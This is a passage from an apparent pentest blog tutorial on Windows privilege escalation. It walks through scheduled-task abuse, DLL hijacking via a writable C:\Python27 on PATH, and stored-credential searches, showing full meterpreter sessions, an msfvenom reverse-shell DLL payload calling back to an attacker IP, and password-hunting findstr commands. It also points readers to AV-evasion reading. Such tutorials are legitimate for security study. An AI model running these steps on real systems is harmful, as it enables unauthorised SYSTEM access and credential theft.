[*] uploaded   : Payload.exe -> Payload.exe
```
We should ensure that Task Scheduler service works. Attempt to start service:
```
meterpreter > shell
Process 840 created.
Channel 2 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\test\Local Settings\Temp>net start "Task Scheduler"
net start "Task Scheduler"
The requested service has already been started.
More help is available by typing NET HELPMSG 2182.
C:\Documents and Settings\test\Local Settings\Temp>
```
It seems to be already running. Let’s check machine’s current time:
```
C:\Documents and Settings\test\Local Settings\Temp>time
time
The current time is:  6:41:05.81
Enter the new time: 
C:\Documents and Settings\test\Local Settings\Temp>
```
We will create a task that will run our executable about 1 minute after the current time:
```
C:\Documents and Settings\test\Local Settings\Temp>at 06:50 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
at 02:32 /interactive "C:\Documents and Settings\test\Local Settings\Temp\Payload.exe"
Added a new job with job ID = 1
C:\Documents and Settings\test\Local Settings\Temp>
```
Start a new handler on another terminal window for new hi-priv shell. 1 minute later our executable will run as SYSTEM and will got a session with SYSTEM privileges:
```
msf exploit(handler) > run
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.2.231
[*] Meterpreter session 6 opened (192.168.2.60:8989 -> 192.168.2.231:1066) at 2017-01-05 17:58:29 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
## DLL Hijacking
Suppose that none of above methods worked. But of course, we did not give up. You may want to check running processes for DLL hijacking vulnerability.

Microsoft’s[article](https://msdn.microsoft.com/en-us/library/windows/desktop/ff919712\(v=vs.85\).aspx) explains DLL hijacking well:

> When an application dynamically loads a dynamic-link library without specifying a fully qualified path name, Windows attempts to locate the DLL by searching a well-defined set of directories in a particular order, as described in Dynamic-Link Library Search Order. If an attacker gains control of one of the directories on the DLL search path, it can place a malicious copy of the DLL in that directory. This is sometimes called a DLL preloading attack or a binary planting attack. If the system does not find a legitimate copy of the DLL before it searches the compromised directory, it loads the malicious DLL. If the application is running with administrator privileges, the attacker may succeed in local privilege elevation.

When a process attempts to load a DLL, the system searches directories in the following order:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

So, to exploit this vulnerability we will follow this path:

* Check whether the DLL that process looking for exists in any directory on the disk.
* If it does not exist, place the malicious copy of DLL to one of the directories that I mentioned above. When process executed, it will find and load malicious DLL.
* If the DLL file already exists in any of these paths, try to place malicious DLL to a directory with a higher priority than the directory where the original DLL file exists. For example, if the original DLL exists in the C:\Windows directory and if we gain control of the directory which the application loaded and place a malicious copy of the DLL in that directory, when the application tries to load the DLL file, it will look at the directory which the application loaded. And it will find the malicious copy of DLL, and load it. So, our malicious code will be executed with higher privileges.

Okay then. Let’s start to investigate running processes:
```
meterpreter > getuid
Server username: TARGETMACHINE\testuser
meterpreter > ps
Process List
============
 PID   PPID  Name                    Arch  Session  User                    Path
---   ----  ----                    ----  -------  ----                    ----
 0     0     [System Process]                                               
 4     0     System                                                         
 80    564   svchost.exe                                                    
 308   4     smss.exe                                                       
 408   400   csrss.exe                                                      
 456   400   wininit.exe                                                    
 512   2584  SearchFilterHost.exe                                           
 564   456   services.exe                                                   
 572   456   lsass.exe                                                      
 656   564   svchost.exe                                                    
 680   564   svchost.exe                                                    
 700   564   svchost.exe                                                    
 816   564   vmacthlp.exe                                                   
 892   2584  SearchProtocolHost.exe                                         
 896   564   svchost.exe                                                    
 932   564   svchost.exe                                                    
 952   932   Vulnerable.exe                                                 
 968   2220  explorer.exe            x64   2        TARGETMACHINE\testuser  C:\Windows\explorer.exe
 972   564   svchost.exe                                                    
 996   80    WUDFHost.exe                                                   
 1104  564   spoolsv.exe                                                    
 1136  564   svchost.exe                                                    
 1324  564   svchost.exe                                                    
 1404  564   sqlwriter.exe                                                  
 1448  564   VGAuthService.exe                                              
 1460  2884  TPAutoConnect.exe       x64   2        TARGETMACHINE\testuser  C:\Program Files\VMware\VMware Tools\TPAutoConnect.exe
 1532  564   vmtoolsd.exe                                                   
 1572  80    TabTip.exe              x64   2                                
 1864  2832  dwm.exe                                                           
 1996  2568  mmc.exe                 x64   2                                
 2056  780   csrss.exe                                                      
 2224  564   msdtc.exe                                                      
 2472  932   taskhostex.exe          x64   2        TARGETMACHINE\testuser  C:\Windows\System32\taskhostex.exe
 2584  564   SearchIndexer.exe                                              
 2752  564   svchost.exe                                                    
 2832  780   winlogon.exe                                                   
 2876  952   conhost.exe                                                    
 2884  564   TPAutoConnSvc.exe                                              
 2916  896   audiodg.exe             x64   0                                
 2992  564   dllhost.exe                                                    
 3436  656   WmiPrvSE.exe                                                   
 3444  968   firefox.exe             x86   2        TARGETMACHINE\testuser  C:\Program Files (x86)\Mozilla Firefox\firefox.exe
 3480  968   vmtoolsd.exe            x64   2        TARGETMACHINE\testuser  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 3648  1460  conhost.exe             x64   2        TARGETMACHINE\testuser  C:\Windows\System32\conhost.exe
 3668  564   sppsvc.exe                                                     
 3732  1572  TabTip32.exe            x86   2                                
 3764  1752  Taskmgr.exe             x64   2        TARGETMACHINE\testuser  C:\Windows\System32\Taskmgr.exe
```
As you can see, if we are using low-priv shell we cannot see the details about processes which running with higher privileges, such as user, path, architecture. But we can understand which processes running with higher privileges than ours. If one of these processes have some weaknesses we can exploit it to escalate our privileges.

While investigating processes, Vulnerable.exe caught my attention. Let’s find it’s location and download it:
```
meterpreter > search -f Vulnerable.exe
Found 1 result...
    C:\Windows\SysWOW64\Vulnerable.exe (31232 bytes)
meterpreter > cd C:/Windows/SysWOW64
meterpreter > download Vulnerable.exe
[*] downloading: Vulnerable.exe -> Vulnerable.exe
[*] download   : Vulnerable.exe -> Vulnerable.exe
```
When we examine it a little bit, we will realize that it tries to load a dll named hijackable.dll.
The easiest way to detect DLL hijacking vulnerability is using Procmon tool.
To see the results more easily, you should add these 3 filters:

After adding filters, when you execute Vulnerable.exe, failed DLL loads will be listed:

In this scenario Vulnerable.exe process have dll hijacking vulnerability. Ok I confess, actually this Vulnerable.exe is a simple code that loads a dll without doing some checks:
```c
#include "stdafx.h"
#include "windows.h"
void _tmain(int argc, _TCHAR* argv[]) 
{ 
  LoadLibrary(L"hijackable.dll"); 
}
```
Let’s check if hijackable.dll exists on the machine:
```
meterpreter > search -f hijackable.dll
No files matching your search were found.
meterpreter > 
```
It seems that dll does not exist on the machine. But we cannot sure at this point, maybe it exists in a directory that we don’t have permission to view. Don’t forget we still have low privileges. 🙁

The next step is checking possible weak folder permissions. I usually check if a software gets installed in the root directory such as Python. Because if a folder created in the root directory, it is writable for all authenticated users by default. And softwares like Python, Ruby, Perl etc. usually added to PATH variable.

Remember, Windows checks the directories that are listed in the PATH environment variable!
```
meterpreter > ls
Listing: C:\
============
Mode              Size        Type  Last modified              Name
----              ----        ----  -------------              ----
40777/rwxrwxrwx   0           dir   2017-01-18 05:59:21 -0500  $Recycle.Bin
100666/rw-rw-rw-  1           fil   2013-06-18 08:18:29 -0400  BOOTNXT
100444/r--r--r--  8192        fil   2013-09-11 14:11:46 -0400  BOOTSECT.BAK
40777/rwxrwxrwx   0           dir   2016-11-19 15:49:57 -0500  Boot
40777/rwxrwxrwx   0           dir   2013-08-22 10:45:52 -0400  Documents and Settings
40555/r-xr-xr-x   0           dir   2016-07-27 07:12:06 -0400  MSOCache
40777/rwxrwxrwx   0           dir   2013-08-22 11:22:35 -0400  PerfLogs
40555/r-xr-xr-x   0           dir   2017-01-18 04:05:59 -0500  Program Files
40555/r-xr-xr-x   0           dir   2017-01-18 04:07:04 -0500  Program Files (x86)
40777/rwxrwxrwx   0           dir   2017-01-18 04:05:28 -0500  ProgramData
40777/rwxrwxrwx   0           dir   2017-01-18 09:51:36 -0500  Python27
40777/rwxrwxrwx   0           dir   2013-09-11 13:15:09 -0400  Recovery
40777/rwxrwxrwx   0           dir   2017-01-18 03:52:51 -0500  System Volume Information
40555/r-xr-xr-x   0           dir   2017-01-04 21:51:12 -0500  Users
40777/rwxrwxrwx   0           dir   2017-01-18 03:53:05 -0500  Windows
100444/r--r--r--  404250      fil   2014-06-14 06:46:09 -0400  bootmgr
100666/rw-rw-rw-  1409286144  fil   2017-01-18 13:53:34 -0500  pagefile.sys
100666/rw-rw-rw-  16777216    fil   2017-01-18 13:53:34 -0500  swapfile.sys
```
Just as I thought, Python was installed. Let’s check permissions:
```
meterpreter > shell
Process 3900 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\>icacls C:\Python27
icacls C:\Python27
C:\Python27 BUILTIN\Administrators:(I)(OI)(CI)(F)
            NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
            BUILTIN\Users:(I)(OI)(CI)(RX)
            NT AUTHORITY\Authenticated Users:(I)(M)
            NT AUTHORITY\Authenticated Users:(I)(OI)(CI)(IO)(M)
Successfully processed 1 files; Failed processing 0 files
C:\>
```
BINGO! Authenticated users have modification permissions!

One last check left. We should ensure if C:\Python27 directory added in the PATH environment variable. The easiest way to do this, typing “python -h” in the shell. If the help page is displayed successfully it means the directory is added in the PATH:
```
meterpreter > shell
Process 3360 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\>python -h
python -h
usage: python [option] ... [-c cmd | -m mod | file | -] [arg] ...
Options and arguments (and corresponding environment variables):
-B     : don't write .py[co] files on import; also PYTHONDONTWRITEBYTECODE=x
-c cmd : program passed in as string (terminates option list)
-d     : debug output from parser; also PYTHONDEBUG=x
-E     : ignore PYTHON* environment variables (such as PYTHONPATH)
-h     : print this help message and exit (also --help)
```
Nice! Let’s create a simple reverse shell payload as a dll and put here:
```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.2.60 lport=8989 -f dll > hijackable.dll
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86_64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 5120 bytes
root@kali:~# 
```
Then place it in the C:\Python27 directory:
```
meterpreter > upload -f hijackable.dll
[*] uploading  : hijackable.dll -> hijackable.dll
[*] uploaded   : hijackable.dll -> hijackable.dll
meterpreter >
```
Now, we should restart the Vulnerable.exe process, so that the process can load malicious dll. We can try to kill process. If we are lucky it will be started automatically:
```
meterpreter > kill 952
Killing: 952
[-] stdapi_sys_process_kill: Operation failed: Access is denied.
```
We are unlucky today, not even killed. Anyway, we can try restarting the machine. If the “Vulnerable.exe” is a startup application, a service, or a scheduled task it will be launched again. At worst, we will wait for someone to run it.
```
meterpreter > shell
Process 3024 created.
Channel 3 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\testuser\Downloads>shutdown /r /t 0
shutdown /r /t 0
[*] 192.168.2.40 - Meterpreter session 3 closed.  Reason: Died
```
Machine is restarting. Let’s start a new handler and hope it starts again:
```
msf exploit(handler) > run
[*] Started reverse TCP handler on 192.168.2.60:8989 
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.2.40
[*] Meterpreter session 5 opened (192.168.2.60:8989 -> 192.168.2.40:49156) at 2017-01-18 07:47:39 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
We got it! 😉
## Stored Credentials
If any of that methods work, you may try to find some stored credentials. You may want to check these directories:

* C:\unattend.xml
* C:\sysprep.inf
* C:\sysprep\sysprep.xml

And you may want to search files using queries like this:
```
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b
dir c:\ /s /b | findstr /si *vnc.ini
findstr /si password *.txt | *.xml | *.ini
findstr /si pass *.txt | *.xml | *.ini
```
## Kernel Exploits
In this blog post, I especially tried to explain escalation methods that do not rely upon kernel exploits. But you are about to use an exploit to escalate your privileges, maybe this command will help you to choose which one you should use:
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```
It will list the updates that are installed on the machine.
## A Note About Payloads
In this blog post, my payloads generated by MSFvenom. However today, these payloads are flagged by almost all Anti-Viruses. Because it is a popular tool and well known by AV vendors. Creating creating your own executables using AV bypassing techniques will give you the best results. You should consider reading these articles:

* [Art of Anti Detection 1 – Introduction to AV & Detection Techniques](https://pentest.blog/art-of-anti-detection-1-introduction-to-av-detection-techniques/)
* [Art of Anti Detection 2 – PE Backdoor Manufacturing](https://pentest.blog/art-of-anti-detection-2-pe-backdoor-manufacturing/)
## References
[1] – https://www.trustwave.com/Resources/SpiderLabs-Blog/My-5-Top-Ways-to-Escalate-Privileges/
[2] – https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx
[3] – https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx
[4] – https://www.synack.com/2014/12/10/dll-hijacking-in-2014/
[5] – http://www.fuzzysecurity.com/tutorials/16.html
[6] – https://www.exploit-db.com/docs/39732.pdf
[7] – https://www.tecklyfe.com/remediation-microsoft-windows-unquoted-service-path-enumeration-vulnerability/
[8] – https://toshellandback.com/2015/11/24/ms-priv-esc/
[9] – https://it-ovid.blogspot.de/2012/02/windows-privilege-escalation.html
[10] – https://blog.netspi.com/windows-privilege-escalation-part-1-local-administrator-privileges/

tags: windows pentest